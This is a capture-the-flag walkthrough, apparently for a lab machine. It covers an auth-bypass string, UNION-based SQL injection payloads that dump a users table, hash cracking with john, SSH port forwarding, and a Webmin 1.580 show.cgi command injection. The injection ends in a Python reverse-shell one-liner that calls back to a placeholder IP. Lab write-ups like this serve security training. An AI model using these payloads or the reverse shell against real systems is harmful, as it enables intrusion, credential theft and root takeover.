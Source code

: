 # 1. Enumeration

### Nmap scan : 

| PORT        | STATE SERVICE REASON | VERSION                                                                     |
|-------------|----------------------|-----------------------------------------------------------------------------|
| 22/tcp open | ssh                  | syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) |
| 80/tcp open | http                 | syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))                               |

### WEB

There is a web server running on the port 80.
Where we can a basic webpage but with a login form.
We can try if it is vulnerable to sql injections with : "' OR 1=1 #--"
Using it in the username section, and with any passwords, we can login and get access to /portal.php

# 2. SQL Injection

We face an application that can retrieve informations about video games reviews.
Maybe it is also vulnerable to sql injections.
If we enter "'", this throw an error : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1 
The form is vulnerable to some sql injection.

## Without sqlmap

First, we need to know the number of columns used in this form with a UNION SELECT.
> ' UNION SELECT NULL#--

Throw an error
> ' UNION SELECT NULL,NULL#--

Throw an error
> ' UNION SELECT NULL,NULL,NULL#--

Is valid

So we know that there is 3 columns.
We will try to display something in thoses columns :
> ' UNION SELECT 'a','b','c'#--

On the web page, we can see that only b and c are displayed.

Now we need to now the databases existing.
> ' UNION SELECT 'a',schema_name,NULL FROM information_schema.schemata; #--
Return :
```
information_schema	
db	
mysql	
performance_schema	
sys
```

Let's find the tables of the db database.
> ' UNION SELECT 'a',TABLE_NAME,NULL FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE' AND TABLE_SCHEMA='db' #--

Which retrieve :
```
post	
users
```

Maybe the users table contain usernames and password.
We will need some try to guess the rows of the user table because "username" exist but not "password".
After some tries, we can find :
>  'UNION SELECT 'a',username,pwd from users #--

agent47	ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

### With sqlmap

We will capture a request to the form using burp suite, then saving this request.
Once done, let's feed sqlmap with our request.

> sqmap -r request.txt --dbms=mysql --dump

| pwd                                                              | username |
|------------------------------------------------------------------|----------|
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |

# 3. Bruteforce the hash

When passing the hash in the hash-identifier utiliy, we get this result :
Possible Hashs:
[+] SHA-256
[+] Haval-256

We can try to bruteforce this hash using JohnTheRipper
> john pass.hash --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-SHA256

videogamer124    (?) 

So now we know that agent47:videogamer124

# 4. Port forwarding

Using :
> ss -tulnp

We can this that there is a service running on port 10000 that we can't access from outside of the host.
We will use a local port forwarding to expose the service.

On our host :
> ssh -L 10000:localhost:10000 agent47@<ip>

# 5. Root

When navigating to : localhost:10000
We get to a Webmin page

On the SSH connection,we can find in the /etc/webmin a file called version which tell us :
1.580

We can login to the webmin using the previous creds.
Searching online, we can find an Msf module for this version.
https://www.exploit-db.com/exploits/21851

We can also use manually exploit.
It's explain in the msf exploit that if we access /file/show.cgi/bin/afnafnafn| command |
we can download a file with the result of the command we put, and the command is executed as root.

We can manage to get a shell using :
> /file/show.cgi/bin/dd|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'|






